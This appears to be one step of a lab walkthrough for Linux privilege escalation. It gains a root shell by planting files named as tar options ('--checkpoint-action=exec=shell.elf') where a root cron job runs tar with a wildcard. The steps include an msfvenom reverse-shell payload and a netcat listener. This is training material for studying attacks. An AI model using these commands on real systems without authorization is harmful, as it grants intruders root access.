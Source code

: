 View the contents of the other cron job script:

`cat /usr/local/bin/compress.sh`

Note that the tar command is being run with a wildcard (*) in your home directory.

Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/). Note that tar has command line options that let you run other commands as part of a checkpoint feature.

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`

Transfer the shell.elf file to **/home/user/** on the Debian VM (you can use **scp**¬†or host the file on a webserver on your Kali box and use **wget**). Make sure the file is executable:

`chmod +x /home/user/shell.elf`

Create these two files in /home/user:

`touch /home/user/--checkpoint=1`

`touch /home/user/--checkpoint-action=exec=shell.elf`

When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

`nc -nvlp 4444`

**Remember to exit out of the root shell** **and delete all the files you created to prevent the cron job from executing again:**

`rm /home/user/shell.elf`

`rm /home/user/--checkpoint=1`

`rm /home/user/--checkpoint-action=exec=shell.elf`